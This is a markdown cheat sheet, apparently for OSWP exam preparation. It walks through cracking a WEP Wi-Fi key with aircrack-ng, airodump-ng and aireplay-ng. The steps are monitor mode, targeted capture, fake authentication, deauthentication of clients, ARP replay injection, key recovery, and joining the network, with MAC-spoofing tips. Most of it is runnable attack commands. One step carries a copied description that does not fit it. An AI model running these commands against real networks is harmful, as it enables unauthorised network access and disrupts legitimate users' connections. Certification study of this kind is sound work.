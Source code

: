 
# 🛡️ WEP Attack – SSH-only, exam-style flow

## ⚙️ 0. Initial Setup

📌 Get your interface MAC (before monitor mode) via:

```bash
cat /sys/class/net/wlan0/address
```
or
```bash
ip link show wlan0
```

then let's go!

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Enables monitor mode on `wlan0mon`.

---

## 🔍 1. Network Scanning

```bash
sudo airodump-ng wlan0mon
```

Identify:
- `BSSID`
- `Channel`
- `Associated Clients` (STATION)

---

## 🎯 2. Targeted Sniffing

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w dump wlan0mon
```

Collects IVs for cracking.

---

## 🔐 2. Fake Auth (mandatory before injection)

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

Collects IVs for cracking.

---

## 💣 3. (Optional) Deauth Attack

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> wlan0mon
```

Forces a client to reconnect and trigger ARP traffic.

---

## 🚀 4. ARP Replay Attack


```bash
sudo aireplay-ng --arpreplay -b <BSSID> -h <YOUR_MAC> wlan0mon
```

Injects ARP requests to increase `#Data`.
`-h` needs **your** MAC not a random one. We are pretending to be a legitimate client.

---

## 🔓 5. Crack the WEP Key

When you see 20.000–30.000 IV in the `#Data` column you need to:


```bash
aircrack-ng dump-01.cap
```

Expected result:

```
KEY FOUND! [ 12:34:56:78:90 ]
```
---

## 🔌 6. Connect Using wpa_supplicant

### wep.conf

```ini
network={
    ssid="wifi-old"
    key_mgmt=NONE
    wep_key0="1234567890"
    wep_tx_keyidx=0
}
```

### Launch

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wep.conf -D nl80211
sudo dhclient wlan0
```

---

## ✅ 7. Verify Connection

```bash
ip a
ping 192.168.1.1
```

---

## 🧠 Extra: 
### IP vs Gateway Explanation

- **192.168.1.48** is your local IP, assigned via DHCP by the router.
- **192.168.1.1** is usually the **gateway/router**, your exit to the rest of the network or internet.
- Pinging `192.168.1.1` checks if you're actually connected to the router.
- Pinging `192.168.1.48` means you're pinging yourself — useful only for internal stack checks.

### Fake auth differences

❓ Are these two commands the same?

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

vs

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

No! they are not! they are similar but not the same. And here is why: 
📌 Command 1 – One-Time Fake Auth

```bash
sudo aireplay-ng --fakeauth 0 -a <BSSID> -h <YOUR_MAC> wlan0mon
```

- Performs a **single fake authentication attempt** with 0ms timeout.
- Registers your MAC with the target AP so it accepts injected packets.
- Output when successful:

  ```
  Authentication successful
  ```

✅ Use this for **quick testing** or **simple APs**.  
🚫 If the AP drops your session (timeout, range issues), injection will fail.

---

## 📌 Command 2 – Persistent Re-Auth

```bash
sudo aireplay-ng -1 3600 -q 10 -a <BSSID> wlan0mon
```

- `-1 3600`: re-authenticate every **3600 seconds** (1 hour).
- `-q 10`: show status every **10 seconds**.
- More stable for long-running injection or strict APs.

✅ Recommended for **OSWP labs**, **unstable links**, or **demanding routers**.

---

## 🧠 TL;DR Summary

| Command | Type | When to Use |
|--------|------|-------------|
| `--fakeauth 0` | Single shot | Quick tests, permissive routers |
| `-1 3600 -q 10` | Persistent | Long sessions, lab setup, unstable auth |

---

## 💡 Pro Tip

- Use **persistent fake auth** before launching `--arpreplay`.
- If fakeauth fails:
  - Try a different MAC with `macchanger`
  - Move closer to the AP
  - Add delay: `--fakeauth 60000`

---

Chapter closed. WEP is toast. Ready for WPA2? 😎
